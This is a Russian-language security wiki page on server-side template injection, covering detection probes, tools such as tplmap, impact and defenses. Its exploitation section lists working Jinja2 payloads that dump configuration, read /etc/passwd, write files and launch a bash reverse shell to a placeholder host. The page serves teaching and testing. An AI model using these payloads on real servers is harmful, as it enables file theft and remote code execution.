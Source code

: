 # уязвимость/атака

## Описание
SSTI (server side template injection) - внедрение шаблонов на стороне сервера.
Механизмы шаблонов широко используются веб-приложениями для представления динамических данных через веб-страницы и электронные письма. Небезопасное встраивание пользовательского ввода в шаблоны позволяет внедрить шаблон на стороне сервера. Template Injection можно использовать для прямой атаки на внутренние компоненты веб-серверов и получения удаленного выполнения кода (RCE), превращая каждое уязвимое приложение в потенциальную опорную точку.

## Классификация


Client-side / Server-side Template Injection


## Условия
- ОС: любая
- язык: зависит от шаблонизатора (python, php, java)
- компоненты: фреймворк
- настройки: разные


## Детектирование


Для детектирования можно использовать tplmap и ручное тестирование путем ввода различных шаблонов, например:
`{{  7*7  }}`

`{{ 7 * '7'}}`

и т.д. 

Выполнение кода, введенного в шаблоне, сигнализирует о наличии данной  уязвимости.


##Информация:


https://portswigger.net/blog/server-side-template-injection
https://nvisium.com/blog/2015/12/07/injecting-flask.html
https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html
https://www.securitylab.ru/analytics/480275.php
https://defcon.ru/web-security/3840/




## Эксплуатация


###Дамп всех используемых классов (Dump all used classes)


`{{ [].class.base.subclasses() }}`

`{{''.class.mro()[1].subclasses()}}`

`{{''.__class__.__mro__[2].__subclasses__()}}`

###Дамп всех переменных конфигурации (Dump all config variables)


	{% for key, value in config.iteritems() %}
		<dt>{{ key|e }}</dt>
   		<dd>{{ value|e }}</dd>
	{% endfor %}

###Чтение из удаленных файлов (Reading remote files)


`''.__class__.__mro__[2].__subclasses__()[40] = File class`

`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`

`{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}`



###Запись в удаленные файлы (Writing into remote files)
`{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt',`

`'w').write('Hello here !') }}`



###Удаленное выполнение кода (RCE)


`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from`

`subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config`

`{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config`

`{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to`

`evil host`










## Инструменты


Tplmap - это инструмент от [epinna](https://github.com/epinna), который помогает эксплуатировать уязвимость SSTI с помощью ряда методов выхода из песочницы, чтобы получить доступ к базовой операционной системе. Он может использовать несколько контекстов кода и сценариев слепого внедрения. [Github](https://github.com/epinna/tplmap)


search.py скрипт от DoubleSigma. [Link](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py).


## Ущерб


Получение информации с сервера, к которой мы не имеем доступа. Возможность удаленного внедрения кода в серверный скрипт.


## Защита
### Основные меры


Экранирование - технически реализация экранирования заключается в замене определенных символов их безопасными аналогами - html-кодами. Как правило, считаются опасными и подлежат замене 5 символов - это кавычки, знаки больше/меньше и амперсанд, то есть `&`, `<`, `>`, `"`, `'` 


`& --> &amp;`
 
` < --> &lt;`

` > --> &gt;`

` " --> &quot;`

` ' --> &#x27;   ( &apos;  не рекомендуется)`

` / --> &#x2F; `


Политика защиты контента (CSP) - в качестве последней линии защиты вы можете использовать Content Security Policy (CSP), чтобы уменьшить серьезность любых уязвимостей XSS, которые все еще возникают.


Политика защиты контента (CSP) — это дополнительный уровень безопасности, который помогает обнаружить и смягчить некоторые виды атак, в том числе межсайтовый скриптинг (XSS) и инъекцию данных. Эти атаки используются для всего, от кражи данных до порчи сайтов и распространения вредоносного ПО.


### Превентивные меры
Ограничение доступа к внутренней инфраструктуре для потенциально подверженных SSRF серверов.
Обработка данных, введенных пользователем. 


Защита от уязвимостей локального включения файлов (LFI) . Это означает, что вы не должны позволять пользователям контролировать путь к такому файлу или его содержимое.
## Дополнительно
http://xgu.ru/wiki/%D0%A8%D0%B0%D0%B1%D0%BB%D0%BE%D0%BD%D0%B8%D0%B7%D0%B0%D1%82%D0%BE%D1%80 - шаблонизаторы


## Обход защиты


Обход фильтров (Filters bypass) - разработчики включают в web-приложения специальные фильтры для проверки содержимого запросов пользователя на наличие «инородных» данных и тем самым усложняя задачу нарушителя. Однако существуют и появляются новые методы, позволяющие обмануть проверку.
